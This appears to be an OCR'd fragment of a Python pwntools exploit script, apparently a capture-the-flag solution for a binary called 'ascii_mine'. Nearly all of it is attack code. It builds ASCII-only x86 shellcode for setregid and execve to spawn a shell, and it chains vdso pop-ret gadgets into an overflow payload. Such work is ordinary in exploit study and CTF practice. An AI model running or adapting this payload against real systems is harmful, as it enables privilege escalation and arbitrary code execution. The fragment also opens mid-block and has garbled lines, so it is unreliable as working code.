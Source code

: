 ```python
dec eax
xor eax, 0x28283875
push eax
pop esi

push ebx
pop eax
xor al, 0x72
xor [eax], esi
xor al, 0x26
xor [eax], esi
''')
setup setregid(1043, 1043)
setup_ebx = zero_out_eax + asm('''
xor eax, 0x47474747
xor eax, 0x47474354

push ebx
push eax
pop ebx
''')
setup_ecx = asm('push ebx\npop ecx')
setup_eax = zero_out_eax + asm('xor al, 0x47')
setregid_shellcode = setup_int_0x80 + setup_ebx + setup_ecx + setup_eax

# setup execve(some_bytes, NULL, NULL)
setup_ebx = asm('pop ebx')  # pop off the value we stored
setup_ecx = zero_out_eax + asm('push eax\npop ecx')
setup_edx = asm('push eax\npop edx')
setup_eax = asm('xor al, 0x2b') + asm('xor al, 0x20')
execve_shellcode = setup_ebx + setup_ecx + setup_edx + setup_eax

shellcode = setregid_shellcode
shellcode += 'G' * (0x92 - len(shellcode))
shellcode += execve_shellcode
assert all(map(is_ascii, shellcode))

def gen_payload(vdso_start=None):
    """
    generates payload on the fly for easy DEBUG style testing
    """
    if vdso_start is None:
        vdso_start = VDSO_START
    two_pop_ret = p32(vdso_start + 0xb5a) + b'GGGG'  # pops 3 things off stack
    three_pop_ret = p32(vdso_start + 0xb59) + b'GGGG' * 3  # pops 4 things off stack
    payload = shellcode + b'G' * (0xac - len(shellcode))
    payload += three_pop_ret + three_pop_ret + two_pop_ret
    assert all(map(is_ascii, payload))
    assert len(payload) < 0xac + 44
    return payload

for i in range(1 if DEBUG else 20):
    howmany = 0
    if DEBUG:
        while True:
            p = process('./ascii_mine')
            procq = [p]
            vdso_start = None
            with open('/proc/' + str(p.pid) + '/maps') as f:
                maps = f.read()
            print(maps)
            vdso_start = next(iter(filter(lambda x: 'vdso' in x, maps.split('\n'))))
            vdso_start = eval('0x' + vdso_start.split('-')[0])
```